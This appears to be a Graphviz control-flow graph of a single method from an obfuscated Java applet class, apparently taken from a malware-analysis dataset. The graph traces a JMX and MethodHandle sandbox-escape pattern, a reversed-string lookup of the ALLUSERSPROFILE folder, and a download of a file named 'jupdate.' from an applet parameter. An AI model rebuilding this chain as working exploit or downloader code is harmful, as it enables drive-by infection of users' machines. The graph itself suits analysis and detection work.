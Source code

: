 digraph "" {
    "r0 := @this: amor"
    "load.r r0"
    "r0 := @this: amor"->"load.r r0";
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"
    "load.r r0"->"staticget <amor: java.lang.String ByteArrayWithSecOff>";
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"->"virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>";
    "store.r r50"
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"->"store.r r50";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r50"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "staticinvoke <pC: void DoFirst(java.lang.Object)>"
    "checkcast"->"staticinvoke <pC: void DoFirst(java.lang.Object)>";
    "staticinvoke <pC: void genLookup()>"
    "staticinvoke <pC: void DoFirst(java.lang.Object)>"->"staticinvoke <pC: void genLookup()>";
    "push 1"
    "staticinvoke <pC: void genLookup()>"->"push 1";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"staticput <amor: java.lang.invoke.MethodType localMethodType2>";
    "staticinvoke <pC: java.lang.Object[] genObj1()>"
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"->"staticinvoke <pC: java.lang.Object[] genObj1()>";
    "store.r r4"
    "staticinvoke <pC: java.lang.Object[] genObj1()>"->"store.r r4";
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"
    "store.r r4"->"staticget <pC: java.lang.invoke.MethodHandle lMH1>";
    "load.r r4"
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"->"load.r r4";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push 0";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"
    "push 0"->"staticinvoke <pC: java.lang.invoke.MethodType mtR()>";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <amor: java.lang.Class localClass2>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <amor: java.lang.Class localClass2>";
    "push class \"Ljava/lang/ClassLoader;\""
    "staticget <amor: java.lang.Class localClass2>"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>";
    "store.r r9"
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"->"store.r r9";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "load.r r9"
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 2"
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"->"store.r r9";
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 3"
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 2";
    "load.r r50"
    "push 2"->"load.r r50";
    "load.r r50"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <pC: void nI(java.lang.Class)>"
    "checkcast"->"staticinvoke <pC: void nI(java.lang.Class)>";
    "new java.lang.StringBuilder"
    "staticinvoke <pC: void nI(java.lang.Class)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"SRESULLA\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"SRESULLA\"";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"
    "push \"SRESULLA\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ELIFORP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r9";
    "store.r r9"->"push null";
    "push null"->"store.r r50";
    "store.r r50"->"push 0";
    "store.b r4"
    "push 0"->"store.b r4";
    "store.b r4"->"store.r r9";
    "store.r r9"->"load.r r0";
    "virtualinvoke <amor: void JSM_onLoadFail()>"
    "load.r r0"->"virtualinvoke <amor: void JSM_onLoadFail()>";
    "virtualinvoke <amor: void JSM_onLoadFail()>"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "store.r r18"
    "arrayread.r"->"store.r r18";
    "store.r r18"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"arrayread.r";
    "store.r r19"
    "arrayread.r"->"store.r r19";
    "store.r r19"->"load.r r9";
    "load.r r9"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r4";
    "store.b r4"->"load.r r0";
    "load.r r18"
    "load.r r0"->"load.r r18";
    "load.r r18"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r50";
    "load.r r50"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "load.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r19";
    "load.b r4"
    "load.r r19"->"load.b r4";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r4"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"store.r r0";
    "store.b r4"->"load.r r0";
    "load.r r0"->"load.r r9";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r9"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r50";
    "goto load.r r0"
    "store.r r50"->"goto load.r r0";
}
